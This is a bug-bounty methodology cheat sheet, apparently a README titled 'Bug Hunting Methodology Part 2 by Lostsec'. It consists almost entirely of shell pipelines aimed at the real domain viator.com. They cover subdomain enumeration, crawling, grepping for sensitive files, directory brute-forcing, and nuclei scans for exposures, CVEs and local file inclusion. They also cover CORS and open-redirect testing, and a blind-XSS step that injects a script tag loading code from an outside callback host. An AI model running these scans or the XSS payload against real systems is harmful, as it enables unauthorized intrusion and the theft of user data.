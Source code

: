 CoffinSP
### Bug Hunting Methodology Part 2 by Lostsec

#### 1. **Subdomain Enumeration**
   - Use **Subfinder** to discover subdomains:
     ```bash
     subfinder -d viator.com -all -recursive > subdomain.txt
     ```

#### 2. **Check Live Subdomains**
   - Verify which subdomains are alive with **httpx-toolkit**:
     ```bash
     cat subdomain.txt | httpx-toolkit -ports 80,443,8080,8000,8888 -threads 200 > subdomains_alive.txt
     ```

#### 3. **URL Discovery**
   - Use **Katana** to find URLs and filter for specific sources:
     ```bash
     katana -u subdomains_alive.txt -d 5 -ps -pss waybackarchive,commoncrawl,alienvault -kf -jc -fx -ef woff,css,png,svg,jpg,woff2,jpeg,gif,svg -o allurls.txt
     ```

#### 4. **Filter for Sensitive Files**
   - Extract URLs that may contain sensitive information:
     ```bash
     cat allurls.txt | grep -E "\.txt|\.log|\.cache|\.secret|\.db|\.backup|\.yml|\.json|\.gz|\.rar|\.zip|\.config"
     ```

#### 5. **JavaScript URL Collection**
   - Collect JavaScript files for further analysis:
     ```bash
     cat allurls.txt | grep -E "\.js$" > js.txt
     ```

#### 6. **Run Nuclei for Exposures**
   - Scan JavaScript files with **Nuclei** for exposure vulnerabilities:
     ```bash
     cat js.txt | nuclei -t /home/coffinxp/nuclei-templates/http/exposures/
     ```

#### 7. **Additional JavaScript Exposure Checks**
   - Check the main domain’s JavaScript files:
     ```bash
     echo www.viator.com | katana -ps | grep -E "\.js$" | nuclei -t /home/coffinxp/nuclei-templates/http/exposures/ -c 30
     ```

#### 8. **Directory Scanning**
   - Use **Dirsearch** to find potential misconfigurations:
     ```bash
     dirsearch -u https://www.viator.com -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,py,rb,php,bak,bkp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,lock,log,rar,old,sql,sql.gz,txt,zip,.xml
     ```

#### 9. **Cross-Site Scripting (XSS) Testing**
   - Search for XSS vulnerabilities:
     ```bash
     subfinder -d viator.com | httpx-toolkit -silent | katana -ps -f qurl | gf xss | bxss -appendMode -payload '"><script src=https://xss.report/c/coffinxp></script>' -parameters
     ```

#### 10. **Subdomain Scanning with Subzy**
   - Use **Subzy** to identify additional vulnerabilities:
     ```bash
     subzy run --targets subdomains.txt --concurrency 100 --hide_fails --verify_ssl
     ```

#### 11. **CORS Testing**
   - Check for CORS misconfigurations:
     ```bash
     python3 corsy.py -i /home/coffinxp/vaitor/subdomains_alive.txt -t 10 --headers "User-Agent: GoogleBot\nCookie: SESSION=Hacked"
     ```

#### 12. **Nuclei CORS and CVE Checks**
   - Run **Nuclei** against alive subdomains for specific tags:
     ```bash
     nuclei -list subdomains_alive.txt -t /home/coffinxp/Priv8-Nuclei/cors
     nuclei -list ~/vaitor/subdomains_alive.txt -tags cve,osint,tech
     ```

#### 13. **Local File Inclusion (LFI) Testing**
   - Scan URLs for LFI vulnerabilities:
     ```bash
     cat allurls.txt | gf lfi | nuclei -tags lfi
     ```

#### 14. **Open Redirect Testing**
   - Use **OpenRedirex** to find open redirects:
     ```bash
     cat allurls.txt | gf redirect | openredirex -p /home/coffinxp/openRedirect
     ```
